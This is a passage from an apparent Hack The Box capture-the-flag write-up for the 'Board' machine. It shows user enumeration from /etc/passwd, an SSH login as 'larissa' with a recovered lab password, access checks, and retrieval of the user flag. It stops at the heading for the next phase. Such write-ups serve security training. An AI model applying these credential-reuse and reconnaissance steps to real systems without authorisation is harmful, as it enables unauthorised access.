 ## 🔐 Phase 6 — SSH Access and User Flag

### System User Identification

Checking existing users:

```bash
cat /etc/passwd | grep -E '/bin/(bash|sh)' | grep -v root
```

**Result:** The user `larissa` has shell access.

### SSH Connection

Attempting SSH connection with the discovered password:

```bash
ssh larissa@board.htb
```

**Password:** `serverfun2$2023!!`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        SSH Connection Successful!
    </p>
</div>

### Access Validation

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
    </div>
</div>

### User Flag Retrieval

```bash
cat ~/user.txt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-flag mr-2 text-green-500"></i>
        <strong>User Flag Obtained!</strong> First step completed.
    </p>
</div>

## 🔍 Phase 7 — Local Enumeration with LinPEAS
